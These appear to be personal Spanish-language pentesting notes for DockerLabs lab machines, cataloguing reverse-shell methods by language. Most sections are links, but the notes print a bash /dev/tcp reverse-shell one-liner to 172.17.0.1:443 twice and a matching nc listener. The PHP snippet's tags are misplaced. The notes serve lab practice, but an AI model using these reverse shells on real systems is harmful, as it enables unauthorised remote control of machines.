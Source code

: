 # APUNTES 

## 1.-Reverse shell:

### 1.1- PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

<?php ?>
    system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");


### 1.2- PYTHON:

código:
máquina showtimes -dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/showtimes/image-11.png

### 1.3- JAVA

código:
revisar la máquina pinguinazo -dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/pinguinazo/image-4.png

### 1.4- NODE

código:
revisar la máquina nodeClimb - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/nodeclimb/image-5.png

### 1.5- RUBY


### 1.6- BASH

código:
máquina showtimes -dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/showtimes/image-16.png

enviar una bash desde comandos desde una máquina víctima (linux) a kali:

bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'

en kali hacemos:

nc -lvnp 443

-------------------------------------------------------------------------------

## 2.- Rutas para contraseñas de ataque de hydra
